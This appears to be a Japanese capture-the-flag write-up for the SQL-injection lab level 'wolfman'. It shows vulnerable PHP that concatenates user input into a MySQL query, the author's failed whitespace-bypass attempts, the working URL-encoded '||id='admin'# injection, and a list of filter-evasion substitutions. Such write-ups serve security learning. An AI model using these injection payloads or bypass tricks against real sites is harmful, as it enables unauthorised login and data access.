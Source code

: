 # orc

## answer

- [orc](../src/orc.py)

## problem

```
query : select id from prob_wolfman where id='guest' and pw=''

<?php 
  include "./config.php"; 
  login_chk(); 
  dbconnect(); 
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~"); 
  if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~"); 
  $query = "select id from prob_wolfman where id='guest' and pw='{$_GET[pw]}'"; 
  echo "<hr>query : <strong>{$query}</strong><hr><br>"; 
  $result = @mysql_fetch_array(mysql_query($query)); 
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>"; 
  if($result['id'] == 'admin') solve("wolfman"); 
  highlight_file(__FILE__); 
?>
```

## memo

試しに、

```
https://los.eagle-jump.org/wolfman_f14e72f8d97e3cb7b8fe02bef1590757.php?pw=aaa
```

とすると

```
query : select id from prob_wolfman where id='guest' and pw='aaa'
```

となった。

コードを読んでいく。

```
if(preg_match('/ /i', $_GET[pw])) exit("No whitespace ~_~");
```

whitespaceフィルターだ。
半角スペースはタブ文字`\t`か`\**\`で回避するのがセオリーなのはたまたま知っていた（やったことない）ので、
さっそくためしてみる。

```
?pw='\tor\tid='admin'#
```

```
?pw='\**\or\**\id='admin'#  
```

上手くいかんな、、、

orの代わりに||を使ってみる作戦でいくか

```
?pw='||id='admin'#
```

行けない。

url encodeしてみる。

```
?pw='%7C%7Cid%3D'admin'%23
```

できた。

原因は`#`をurl encodeするかどうかだった。

## supplementary

いろんな文字がフィルターされたときの代替文字（CTF界伝説のサイト、[こちら](https://graneed.hatenablog.com/entry/2018/10/26/232304)を参照）

- ' : "
- = : STRCMPとis not TRUE
- admin : "admi" "n" を文字列結合

## references

- [preg_match | php manual](https://www.php.net/manual/ja/function.preg-match.php)

- [mysql_fetch_array | php manual](https://www.php.net/manual/ja/function.mysql-fetch-array.php)

- [mysql_query | php manual](https://www.php.net/manual/ja/function.mysql-query.php)

- [BSides Delhi CTF 2018 Write up | こんとろーるしーこんとろーるぶい](https://graneed.hatenablog.com/entry/2018/10/26/232304)

- [highlight_file | php manual](https://www.php.net/manual/ja/function.highlight-file.php)